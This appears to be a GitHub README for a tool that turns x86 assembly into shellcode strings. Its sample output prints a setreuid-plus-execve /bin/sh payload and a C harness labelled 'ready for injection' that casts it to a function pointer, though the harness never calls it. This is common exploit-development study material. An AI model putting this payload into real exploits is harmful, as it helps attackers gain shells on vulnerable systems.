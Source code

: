 # 0x86-assembely-shelldoeing-

exploitation with assembly shellcodeing and i write a tool to out shellcodeing 


#Usage

```shellcode.sh ./file.asm ```
it will generate like that :
``` 
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42
```
you can write it to file.c with

```shellcode.sh ./file.asm c ```
it will generate like that :
```
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42

 [+] Writing shellCode as shell.c ready for injection
 
```
and this is content of ```generatedfile.c```
```
int main(){

char shellcode[]="\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int (*execshell)();
execshell=(int(*)()) shellcode;

}
```
#Writen And Devleoped By 0xCrypt00o under the Mit license 


